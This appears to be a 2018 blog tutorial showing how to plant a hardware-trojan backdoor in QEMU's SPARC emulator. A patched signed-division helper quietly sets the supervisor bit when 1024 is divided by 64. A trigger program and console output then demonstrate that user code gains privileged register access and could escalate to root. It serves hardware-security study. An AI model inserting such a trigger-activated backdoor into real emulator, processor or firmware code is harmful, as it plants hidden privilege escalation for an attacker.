 ```yaml
---
layout: post
title:  "[ENG] Testing a HW Trojan in QEMU for Sparc architecture"
date:   2018-05-31 10:38:12 +0200
categories: jekyll update
---
```

This is a short tutorial for implementation of the CPU backdoor with the help of QEMU emulator.
Sources for the implementation are available here : [https://github.com/AdamKostrzewa/qemuSparcTrojan](https://github.com/AdamKostrzewa/qemuSparcTrojan)


Requirements:
* QEMU emulator version 2.12.50 (v2.12.0-rc3-71-g6af2692e86-dirty)
cloned from [git clone git://git.qemu.org/qemu.git](git clone git://git.qemu.org/qemu.git) 
* buildroot-2018.02.1 for cross compilation
cloned from [git clone git://git.buildroot.net/buildroot](git clone git://git.buildroot.net/buildroot) 

You may install qemu sources with :

{% highlight shell %}
wget https://download.qemu.org/qemu-2.12.0.tar.xz
tar xvJf qemu-2.12.0.tar.xz
cd qemu-2.12.0
./configure
make
{% endhighlight %}

The buildroot must be configured for the sparc ISA cross-compilation.
In the buildroot directory use the following commands
{% highlight shell %}
$ make qemu_sparc_ss10_defconfig
$ make menuconfig
{% endhighlight %}

make menuconfig gives you access to the graphical configuration tools.
Select from the  "Toolchain" section the option "Build cross gdb for the host".
It is necessary as the default SPARC v8 config (qemu_sparc_ss10_defconfig) does not include 
cross-gdb by default. Save and exit the graphical interface. 
Later run:
{% highlight shell %}
$ make
{% endhighlight %}
The process of downloading and building the packages may take a while.
The gnu tools for cross-compilation (e.g. sparc-linux-gcc, sparc-linux-as, sparc-linux-gdb etc) 
are located in the buildroot home directory : <path-to-buildroo>/output/host/usr/bin. 
In order to use these tools outside of the folder add the location to the system PATH.


All sources were checked on (26-May-2018)


Description:

The goal of this project is to present the simple implementation of the CPU backdoor in the Sparc pipeline using the Qemu emulator.
The payload of the trojan will be included in the SDIV command and will change the state of the processor's state register.
The trigger will be appropriate div assembler command run with the selected operands (1024 and 64 appropriately). 
The trojan presents an example of the HW/SW codesign.


Application notes:

* Clone the repository with the trojan - https://github.com/AdamKostrzewa/qemuSparcTrojan
* Copy the translate.c file to the ~/qemu_path/target/sparc (where is ~/qemu_path/ is the path of the installation directory)
* Copy the helper.c file to the ~/qemu_path/target/sparc (where is ~/qemu_path/ is the path of the installation directory)
* Compile and run the qemu 
* Compile and run the regular.c
* Compile and run the trigger.c
* run the simulation with the selected Linux Kernel

In my case I am running the following linux kernel:
Linux buildroot 4.11.12 #1 Wed May 2 10:20:04 CEST 2018 sparc GNU/Linux

it is loaded with the command:
{% highlight shell %}
KERNEL="zImage"
DISK="rootfs.ext2"
LOCATION="/path_to_buildroot/output/images"

./qemu/sparc-softmmu/qemu-system-sparc -kernel $LOCATION/$KERNEL \
-boot c \
-append "root=/dev/sda console=ttyS0" \
-nographic \
-m 256 \
-localtime \
-no-reboot \
-name rtlinux \
-net nic,vlan=0 -net user,vlan=0 \
-redir tcp:2222::22 \
-drive file=$LOCATION/$DISK,format=raw \
-monitor tcp:127.0.0.1:55555,server,nowait;
{% endhighlight %}

** Execution of the regular.c in the buildroot **

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

extern __inline__ unsigned long get_psr(void) {
​	unsigned int retval;
​	__asm__ __volatile__("rd %%psr, %0\n\t" :
​			     "=r" (retval) :);
​	return (retval);
}

int main(){

	printf("Demo Application - Trojan Trigger\n");
	int a = 1024;
	int b = 63;
	int c = a / b;

//	int psr = get_psr();
​	
	printf("a=%d b=%d \nc= a / b = %d \n", a, b, c);
	getchar();
	
	int *x = NULL;  
	int y = *x;	// null pointer dereference
	
	return 0;
}
{% endhighlight %}

The result of execution is simple.
The null pointer dereference will lead to a segmentation fault handled by the operating system (trap and interrupt).
An exemplary output of the execution will look as follows:
{% highlight shell %}
$ ./b.out
Demo Application - Trojan Trigger
a=1024 b=63 
c= a / b = 16 

b.out[108]: segfault at 0 ip 00010420 (rpc 000103fc) sp efcabca8 error 30001 in b.out[10000+f000]
Segmentation fault
{% endhighlight %}

If we un-comment the get_psr() function the execution will stop earlier
as processor is running in the user mode, and we are not allowed to use the privileged instructions.
The console output will then look as follows:
{% highlight shell %}
$ ./b.out
Demo Application - Trojan Trigger
Illegal instruction
{% endhighlight %}

** Execution of thge trojans's trigger.c in the buildroot **

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

extern __inline__ unsigned long get_psr(void) {
​	unsigned int retval;
​	__asm__ __volatile__("rd %%psr, %0\n\t" :
​			     "=r" (retval) :);
​	return (retval);
}

extern __inline__ void put_psr(unsigned int new_psr)
{
​	__asm__ __volatile__("wr %0, 0x0, %%psr\n\t"
​			     "nop; nop; nop;" : :
 			     "r" (new_psr));
}


int main(){

	printf("Demo Application - Trojan Trigger\n");
	
	int a = 1024;
	int b = 64;
	int c = a / b;
	
	int psr = get_psr();
	put_psr(psr ^ 0x80);
	
	printf("a=%d b=%d \nc= a / b = %d \n", a, b, c);
	getchar();
	printf("PSR %x \n", psr);
 	getchar();

	c = a / b;
	int *x = NULL;  // x is a null pointer
	int y = *x;	// null pointer dereference
	
	return 0;
}
{% endhighlight %}


The trigger.c file contains the triggering signal, i.e., division with operands int a = 1024;
​	int b = 64; 	int c = a / b; Consequently after its execution we are able to use get_psr and put_psr functions
​	without the "Illegal instruction" error.
​	
Exemplary output of the execution looks as follows:
{% highlight shell %}
$ ./a.out
Demo Application - Trojan Trigger
a=1024 b=64 
c= a / b = 16 

PSR 40000a5 
{% endhighlight %}
As we see the processor was in the kernel mode after the activation (8th bit of the PSR).
Therefore, attacker has access to all commands and all memory operations
and can conduct local privilege escalation  (local root) by overwriting privileges of the own process
at the kernel's stack.

BUT BE CAREFUL!
In kernel mode system is really fragile and every pointer de-reference may finish in permanent crash:
{% highlight shell %}
$ ./a.out
Demo Application - Trojan Trigger
a=1024 b=64 
c= a / b = 16 

PSR 40000a5 
^[[A
Unable to handle kernel NULL pointer dereference
tsk->{mm,active_mm}->context = 00000000
tsk->{mm,active_mm}->pgd = 00000000
​              \|/ ____ \|/
​              "@'/ ,. \`@"
​              /_| \__/ |_\
​                 \__U_/
(null)(0): Oops [#1]
CPU: 0 PID: 0 Comm: (null) Not tainted 4.11.12 #1
task:   (null) task.stack:   (null)
PSR: 040000c7 PC: f0011284 NPC: f0011288 Y: 00000000    Not tainted
PC: <do_sparc_fault+0x8/0x420>
%G: 00000000 00000000  00000000 00000001  00000001 00003d20  00000010 000348e0
%O: 00000004 000302d8  00001000 fb041048  00000001 fb2baaa8  ef965958 f00b9358
RPC: <SyS_read+0x2c/0x8c>
%L: 040000c1 00010908  00017f88 00000004  04000301 00000000  00000000 00030000
%I: ef965a20 00000000  00000000 00000000  fb2baaa0 fb2baaa0  ef9659c0 f0007ee4
Disabling lock debugging due to kernel taint
Instruction DUMP:
 82062004 
 9de3bf98 
 e0060000 
<e201a004>
 80a66000 
 02800003 
 a00c2040 
 f6062004 
 033bffff 

Kernel panic - not syncing: Attempted to kill the idle task!
Press Stop-A (L1-A) from sun keyboard or send break
twice on console to return to the boot prom
---[ end Kernel panic - not syncing: Attempted to kill the idle task!

 {% endhighlight %}


The payload is included in the s_div function of the do_sdif function in helper.c of the target/sparc in qemu.

{% highlight c %}
static target_ulong do_sdiv(CPUSPARCState *env, target_ulong a,
target_ulong b, int cc, uintptr_t ra)
{
int overflow = 0;
int64_t x0;
int32_t x1;

x0 = (a & 0xffffffff) | ((int64_t) (env->y) << 32);
x1 = (b & 0xffffffff);

// trojans payload
if(x0 == 1024 && x1 == 64){
CPUState *cs = CPU(sparc_env_get_cpu(env));
SPARCCPU *cpu = SPARC_CPU(cs);
CPUSPARCState *sc = &cpu->env;
sc->psrs =1;
}


if (x1 == 0) {
cpu_raise_exception_ra(env, TT_DIV_ZERO, ra);
} else if (x1 == -1 && x0 == INT64_MIN) {
x0 = INT32_MAX;
overflow = 1;
} else {
x0 = x0 / x1;
if ((int32_t) x0 != x0) {
x0 = x0 < 0 ? INT32_MIN : INT32_MAX;
overflow = 1;
}
}

if (cc) {
env->cc_dst = x0;
env->cc_src2 = overflow;
env->cc_op = CC_OP_DIV;
}
return x0;
}
{% endhighlight %}

The actions of the payload are fairly simple:
* we check the value of the operands (x0 == 1024 && x1 == 64)
* we cas the CPU object to the CPUSPARCState *sc. The sc contains values of the SPARC CPU register
as they are different from x86 and must be casted at runtime.
* we modify the eight bit of the PSR register sc->psrs =1;




If we are still in user mode the exception is raised as RDPSR | WRPSR are privileged instructions.
Consult the SPARC Manual v8 for more details.

